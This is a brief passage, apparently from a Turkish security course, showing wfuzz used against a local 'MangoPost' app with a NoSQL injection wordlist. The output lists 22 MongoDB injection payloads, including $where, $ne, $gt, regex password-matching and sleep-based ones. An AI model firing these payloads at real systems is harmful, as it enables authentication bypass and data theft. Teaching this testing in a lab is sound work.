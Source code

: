 Fuzzing'i göstermek için `MangoPost` uygulaması üzerinde [wfuzz](https://github.com/xmendez/wfuzz)'ı kullanabiliriz.

```shell-session
[!bash!]$ wfuzz -z file,/usr/share/seclists/Fuzzing/Databases/NoSQL.txt -u http://127.0.0.1/index.php -d '{"trackingNum": FUZZ}'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://127.0.0.1/index.php
Total requests: 22

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        0 L      6 W        35 Ch       "true, $where: '1 == 1'"
000000008:   200        0 L      6 W        35 Ch       "' } ], $comment:'successful MongoDB injection'"
000000009:   200        0 L      6 W        35 Ch       "db.injection.insert({success:1});"
000000010:   200        0 L      6 W        35 Ch       "db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1"
000000003:   200        0 L      6 W        35 Ch       "$where: '1 == 1'"
000000005:   200        0 L      6 W        35 Ch       "1, $where: '1 == 1'"
000000004:   200        0 L      6 W        35 Ch       "', $where: '1 == 1'"
000000006:   200        0 L      6 W        35 Ch       "{ $ne: 1 }"
000000007:   200        0 L      6 W        35 Ch       "', $or: [ {}, { 'a':'a"
000000002:   200        0 L      6 W        35 Ch       ", $where: '1 == 1'"
000000011:   200        0 L      6 W        35 Ch       "|| 1==1"
000000013:   200        0 L      6 W        35 Ch       "' && this.password.match(/.*/)//+%00"
000000016:   200        0 L      6 W        35 Ch       "'%20%26%26%20this.passwordzz.match(/.*/)//+%00"
000000019:   200        0 L      6 W        35 Ch       "[$ne]=1"
000000020:   200        0 L      6 W        35 Ch       "';sleep(5000);"
000000017:   200        0 L      6 W        35 Ch       "{$gt: ''}"
000000018:   200        3 L      13 W       136 Ch      "{"$gt": ""}"
000000015:   200        0 L      6 W        35 Ch       "'%20%26%26%20this.password.match(/.*/)//+%00"
000000014:   200        0 L      6 W        35 Ch       "' && this.passwordzz.match(/.*/)//+%00"
000000022:   200        0 L      6 W        35 Ch       "{$nin: [""]}}"
000000012:   200        0 L      6 W        35 Ch       "' || 'a'=='a"
000000021:   200        0 L      6 W        35 Ch       "';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);"

Total time: 0.036365
Processed Requests: 22
Filtered Requests: 0
Requests/sec.: 604.9728
```
